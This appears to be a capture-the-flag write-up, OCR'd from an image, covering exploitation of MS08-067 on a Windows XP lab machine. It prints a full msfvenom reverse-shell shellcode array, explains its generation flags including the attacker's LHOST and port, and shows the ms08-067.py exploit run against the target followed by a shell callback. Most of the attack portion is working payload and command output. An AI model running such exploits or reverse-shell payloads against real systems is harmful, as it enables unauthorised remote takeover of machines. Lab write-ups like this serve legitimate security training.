 ```bash
 shellcode += b"\xa6\x68\x2d\x5a\x31\x96\xf8\xe2\x88\x53\xac"
 shellcode += b"\xb2\xc9\xbe\x78\x89\xa1\x68\x2d\xb2\xf1\xc7"
 shellcode += b"\xa8\xa2\xf1\xd7\xa8\x8a\x4b\x98\x27\x02\x5e"
 shellcode += b"\x42\x6f\x88\xa4\xff\xf2\xe8\xaf\xbb\x90\xe0"
 shellcode += b"\xa1\x96\x43\x6b\x47\xfd\xe8\xb4\xf6\xff\x61"
 shellcode += b"\x47\xd5\xf6\x07\x37\x24\x57\x8c\xee\x5e\xd9"
 shellcode += b"\xf0\x97\x4d\xff\x08\x57\x03\xc1\x07\x37\xc9"
 shellcode += b"\xf4\x95\x86\xa1\x1e\x1b\xb5\xf6\xc0\xc9\x14"
 shellcode += b"\xcb\x85\xa1\xb4\x43\x6a\x9e\x25\xe5\xb3\xc4"
 shellcode += b"\xe3\xa0\x1a\xbc\xc6\xb1\x51\xf8\xa6\xf5\xc7"
 shellcode += b"\xae\xb4\xf7\xd1\xae\xac\xf7\xc1\xab\xb4\xc9"
 shellcode += b"\xee\x34\xdd\x27\x68\x2d\x6b\x41\xd9\xae\xa4"
 shellcode += b"\x5e\xa7\x90\xea\x26\x8a\x98\x1d\x74\x2c\x18"
 shellcode += b"\xff\x8b\x9d\x90\x44\x34\x2a\x65\x1d\x74\xab"
 shellcode += b"\xfe\x9e\xab\x17\x03\x02\xd4\x92\x43\xa5\xb2"
 shellcode += b"\xe5\x97\x88\xa1\xc4\x07\x37"
```
Shellcode contains:

-p windows/shell_reverse_shell – It will connect me with a shell.
LHOST=10.10.14.44 LPORT=443 EXITFUNC=thread – Defining the variable for the payload, my IP, the port 
and how to exit.

  -b “\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40” – Bad characters not to use.
  -f py – Output in python format.
  -v shellcode – Code set the variable shellcode, instead of default, buf.
  -a x86 and –platform windows – Describing attacker’s enviornment
  
In the exploit, you have to upload your system generated shellcode at the place of default. Also setup
netcat for listening the system shell.

```bash
 root@kali# python ms08-067.py 10.129.1.111 6 445    
#######################################################################                                                                                                 
# MS08-067 Exploit
# This is a modified verion of Debasis Mohanty's code (https://www.exploit-db.com/exploits/7132/).
# The return addresses and the ROP parts are ported from metasploit module exploit/windows/smb/ms08_067_netapi
#
# Mod in 2018 by Andy Acer
# - Added support for selecting a target port at the command line.
# - Changed library calls to allow for establishing a NetBIOS session for SMB transport
# - Changed shellcode handling to allow for variable length shellcode.
########################################################################
 $   This version requires the Python Impacket library version to 0_9_17 or newer.
 $
 $   Here's how to upgrade if necessary:
 $
 $   git clone --branch impacket_0_9_17 --single-branch https://github.com/CoreSecurity/impacket/
 $   cd impacket
 $   pip install .
 #
 Windows XP SP3 English (NX)
 [-]Initiating connection
 [-]connected to ncacn_np:10.129.1.111[\pipe\browser]
 Exploit finish
```
I get a callback on my listener.
